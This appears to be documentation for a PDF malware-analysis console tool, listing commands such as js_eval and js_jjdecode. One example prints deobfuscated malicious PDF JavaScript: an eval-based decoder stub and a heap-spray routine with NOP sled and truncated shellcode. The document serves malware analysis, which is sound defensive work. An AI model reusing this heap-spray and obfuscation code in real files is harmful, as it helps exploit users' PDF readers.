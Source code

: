 ```

There are more than one Javascript code, do you want to see all (1) or just the last one (2)? 1

================== Original Javascript code ==================
function nofaq(lgc){var ppwsd="";for(rxr=0;rxr<lgc.length;rxr+=2){
ppwsd+=(String.fromCharCode(parseInt(lgc.substr(rxr,5),19)));
}
eval(ppwsd);
}
nofaq("0D0A6452...");
===================================================================

================== Next stage of Javascript code ==================

var tX1PnUHy = new Array();
function lRUWC(E79yB, NPvAvQ){
  while (E79yB.length * 2 < NPvAvQ){
    E79yB += E79yB;
  }
  E79yB = E79yB.substring(0, NPvAvQ / 2);
  return E79yB;
}
function YVYohZTd(bBeUHg){
var NTLv7BP = 0x0c0c0c0c;
rpifVgf = unescape("%u4343%u4343%u0feb%u335b%u66c9%u80b9%u8001...");
if (bBeUHg == 1){NTLv7BP = 0x30303030;}
  
		var i388Ag8 = 0x400000;
		var JKn0PaC = rpifVgf.length * 2;
		var NPvAvQ = i388Ag8 - (JKn0PaC + 0x38);
		var E79yB = unescape("%u9090%u9090");
		E79yB = lRUWC(E79yB, NPvAvQ);
		var fwdFfLgn = (NTLv7BP - 0x400000) / i388Ag8;
		for (var HEUAQgED = 0; HEUAQgED < fwdFfLgn; HEUAQgED ++ ){
		tX1PnUHy[HEUAQgED] = E79yB + rpifVgf;
  }
}
...
===================================================================
```
[Index](#Console_commands.md)
<br />
### js\_eval ###
```
Usage: js_eval variable var_name
Usage: js_eval file file_name
Usage: js_eval object object_id [version]

Executes the Javascript code stored in the specified variable, file or object
```
```
PPDF> set jscode "var a = 8; a = a + 2; print('The content of the variable is '+a);"
PPDF> js_eval variable jscode
The variable may not contain Javascript code, do you want to continue? (y/n) y
The content of the variable is 10
```
First, we put Javascript code in a variable. After that we can use the _js\_eval_ command to execute it. There is a warning
because the code is very short to be identified as Javascript code.
<br />
### js\_jjdecode ###
```
Usage: js_jjdecode variable $var_name
```